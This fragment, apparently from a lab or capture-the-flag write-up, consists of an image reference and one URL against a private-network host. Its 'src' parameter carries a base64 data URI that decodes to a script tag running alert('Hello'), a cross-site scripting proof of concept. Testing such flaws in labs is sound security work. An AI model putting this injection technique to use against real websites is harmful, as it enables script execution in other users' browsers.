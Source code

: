 http://10.13.248.135/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnSGVsbG8nKTs8L3NjcmlwdD4=